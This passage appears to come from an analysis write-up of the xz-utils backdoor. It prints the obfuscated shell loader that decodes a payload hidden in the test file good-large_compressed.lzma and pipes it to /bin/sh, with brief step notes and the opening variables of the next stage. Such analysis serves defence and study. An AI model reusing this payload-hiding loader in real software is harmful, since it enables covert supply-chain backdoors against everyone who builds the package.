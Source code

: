 ```sh
export i="((head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +939)";
(xz -dc $srcdir/tests/files/good-large_compressed.lzma\
| eval $i\
| tail -c +31233\
| tr "\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113" "\0-\377")\
| xz -F raw --lzma1 -dc\
| /bin/sh
####World####
```
```sh
(xz -dc $srcdir/tests/files/good-large_compressed.lzma\
| eval $i\
| tail -c +31233\
| tr "\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113" "\0-\377")\
| xz -F raw --lzma1 -dc\
| /bin/sh
```
- If OS is not based on Linux, terminate script
- Set `srcdir`
- Deofuscate `tests/files/good-large_compressed.lzma`


### 3. `good-large_compressed.lzma`
[test/files/good-large_compressed.lzma(Deobfuscated)](/Unknown/xz-utils_backdoor/script/good-large_compressed.sh)
```sh
P="-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"
C="pic_flag=\" $P\""
O="^pic_flag=\" -fPIC -DPIC\"$"
R="is_arch_extension_supported"
x="__get_cpuid("
p="good-large_compressed.lzma"
U="bad-3-corrupt_lzma2.xz"
```
- Set variables

